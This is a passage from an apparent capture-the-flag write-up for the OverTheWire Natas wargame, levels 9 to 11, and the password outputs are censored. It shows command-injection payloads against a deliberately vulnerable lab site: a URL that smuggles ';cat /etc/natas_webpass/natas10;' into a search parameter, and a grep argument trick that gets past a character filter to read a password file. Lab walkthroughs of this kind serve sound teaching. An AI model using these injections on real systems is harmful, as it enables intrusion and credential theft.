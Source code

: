 Our URL will be `http://natas9.natas.labs.overthewire.org/?needle=test;cat%20/etc/natas_webpass/natas10;`.

Output:

~~~~
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
[censored]
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
~~~~


## Natas 10 🡆 Natas 11
Same as the last one, but this time there's filtering on the input.

The regular expression used as the filter is: `/[;|&]/`, so no semicolons this time... we have to use grep.

The option `-i` performs case-insensitive matching, and we can use grep to search multiple files. That means we can pass `/etc/natas_webpass/natas10` in addition to dictionary.txt that's already part of the command. Let's start by just searching for a random letter in both files.

So if we want to execute the command `grep -i [letter] /etc/natas_webpass/natas11 dictionary.txt`, we'd want our query in the textbox to be `[letter] /etc/natas_webpass/natas11`

How about we try `k` first?

Query: `k /etc/natas_webpass/natas11`

Output:

~~~~
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
/etc/natas_webpass/natas11:[censored]
dictionary.txt:Eskimo
dictionary.txt:Eskimo's
dictionary.txt:Eskimos
dictionary.txt:Greek
...
</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
~~~~
